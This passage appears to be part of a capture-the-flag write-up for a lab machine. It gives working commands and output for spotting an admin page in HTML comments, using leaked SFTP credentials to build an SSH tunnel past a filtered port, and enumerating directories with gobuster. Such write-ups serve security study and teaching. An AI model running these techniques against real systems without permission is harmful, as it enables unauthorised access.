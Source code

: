 #### 3.1. HTML comments (on main page)

a. Identifying the admin page
```
# http "http://10.10.10.133/index.php" -b | grep -i admin
<!-- Only enable link if access from trusted networks admin/20190212 -->
<!-- Added localhost admin/20190214 -->
<li class="nav-item"><a id="adminlink" class="nav-link disabled" href="http://onetwoseven.htb:60080/">Admin</a></li>
```

b. Admin page times out upon access (port `60080` is filtered for inbound traffic)
```
# http http://10.10.10.133:60080 -b
```

#### 3.2. Setting up local SSH tunnel via SFTP credentials

a. SFTP credentials used with SSH client
```
# sshpass -pb761463b ssh ots-2MTQ2M2I@10.10.10.133
This service allows sftp connections only.
Connection to 10.10.10.133 closed.
```

b. We can still create an SSH tunnel via
```
# sshpass -pb761463b ssh -N -L0.0.0.0:60080:127.0.0.1:60080 ots-2MTQ2M2I@10.10.10.133
```

c. Admin page access
```
# http http://127.0.0.1:60080 -ph
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 1689
Content-Type: text/html; charset=UTF-8
Date: Thu, 25 Apr 2019 11:13:50 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.25 (Debian)
Set-Cookie: PHPSESSID=8tvo0accu4spukqvihijhg5kn5; path=/
Vary: Accept-Encoding
```

#### 3.3. Directory/file enumeration
```
# f='/opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt'
# docker run --rm -it -v $f:/x gobuster \
-u http://172.16.201.138:60080 -w /x -t 20 \
-s "200,204,301,302,307,401,403" -k -x php
[FORMATTING CUT]
/login.php (Status: 200)
/logout.php (Status: 302)
/menu.php (Status: 302)
/addons	 (Status: 301)
/dist (Status: 301)
/server-status (Status: 200)
=====================================================
2019/04/25 12:04:10 Finished
=====================================================
```
